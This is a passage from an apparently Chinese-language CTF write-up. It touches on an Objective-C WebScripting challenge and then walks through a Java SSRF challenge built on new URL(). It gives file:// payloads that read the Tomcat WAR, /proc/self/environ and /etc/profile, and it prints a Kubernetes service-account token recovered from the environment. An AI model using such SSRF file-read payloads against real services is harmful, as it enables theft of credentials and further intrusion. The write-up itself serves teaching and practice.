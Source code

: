 ```python
```

#### 彩蛋：

当用 js 调用 wmctf 命名空间中一个不存在的方法时，则会返回一段 base64 编码的图片字符串！

#### 参考资料

https://codecolor.ist/2021/08/04/mistuned-part-i/
https://developer.apple.com/documentation/objectivec/nsobject/webscripting?language=objc
https://developer.apple.com/documentation/objectivec/nsobject/1528539-webscriptname/
https://developer.apple.com/library/archive/documentation/AppleApplications/Conceptual/SafariJSProgTopics/ObjCFromJavaScript.html

## WEB

### Java

题目的首页是一个SSRF页面，我使用了`new URL()`来设计此漏洞。

首先是一个任意文件读取漏洞，你可以使用如下payload读取源码：

```
file:///usr/local/Tomcat8/webapps/ROOT.war
```

代码关键部分如下：

1. 使用new URL()进行ssrf，过滤了反引号`
2. 使用https访问时，头部信息会被转发

注意：此处使用new URL()来进行ssrf，在最后会有一个小问题。

![image-20220825105325434](http://img.l1near.top/e6c9d24ely1h5itomz4h0j21e80s4gqh.jpg)

其次，你可以使用如下payload读取系统环境变量：

```shell
file:///proc/self/environ
file:///etc/profile
```

你可以发现有一个k8s账户的token值，被放在了环境变量中，如下图：

```shell
# kube token
TOKEN=eyJhbGciOiJSUzI1NiIsImtpZCI6Ik1IN0RxS0k3U0xhZ1ljYnk1WkE3WE5Mb2dMcVdLOXh5NXVEdmtfc2lKMWMifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJkZWZhdWx0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZWNyZXQubmFtZSI6ImN0ZmVyLXRva2VuLXB6NWxtIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImN0ZmVyIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQudWlkIjoiYjg2ODY0MTgtOWNiOC00MjZiLThkZmQtNTgxM2E1YTVmMTdiIiwic3ViIjoic3lzdGVtOnNlcnZpY2VhY2NvdW50OmRlZmF1bHQ6Y3RmZXIifQ.JWwKPAYDMYDmqq-jg9Mzmvil-wG33skSqWsS3_zjv1bLGTRMUvP73w_LsLu7ptRJ1iofTbHBrgRyn01sJ2wjG8f-LruNFWwPj0S6zcGnfYlaUfG70lZIA7otXgEb2pCBzdqrxH4n4PR2aAE5wG-p_uoBjwiShrX-ykfxwErJMnwvJ15OQ57Y87QlZllkaYnvXgg3853qQ5ww414dz4UZ1BL7jXlcCjwbivHMifxMvUAL6GJWY-yoA3hJJBMNz5sjgUz71MXs-0wWLczDk5cv4mbXrjE-mCden5er32ifjsWBx6H_1i5JX6lSt3BP7iUxBQVaqLhnBtYR5nQuFADMFg
```
